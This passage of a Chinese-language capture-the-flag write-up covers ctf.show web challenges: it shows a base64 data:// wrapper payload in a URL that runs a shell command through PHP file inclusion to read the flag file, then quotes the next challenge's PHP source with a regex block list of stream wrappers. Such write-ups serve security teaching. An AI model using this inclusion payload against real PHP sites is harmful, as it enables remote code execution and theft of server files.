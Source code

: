 可以看到过滤了php的协议，但是没有过滤=，所以我们用data://伪协议直接传递php代码，然后执行

所以我们写入的为\<?php cat f\*.php?>，并且因为php被过滤了，所以我们需要用base64加密的那一句。

```url
http://597fa6fc-ea54-4078-b972-0c0e6295813d.challenge.ctf.show/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZioucGhwIik7Pz4
```

我相信肯定有小伙伴和我之前写一样，最后有个等号，然后出来一个error，因为这个题过滤了等号，所以要把等号删掉（其实这个地方我不是很理解，我删掉了，base64还能解码成功吗）后面想到每三个转化为四个，也许能执行？，我不知道，这个有小伙伴知道吗。

就这样按照他的写吧

然后查看源码，发现flag。

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:purple;background-color:green;">（12）WEB  117</mark>

116需要misc，先不写了。

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: yu22x
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-01 18:16:59

*/
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
```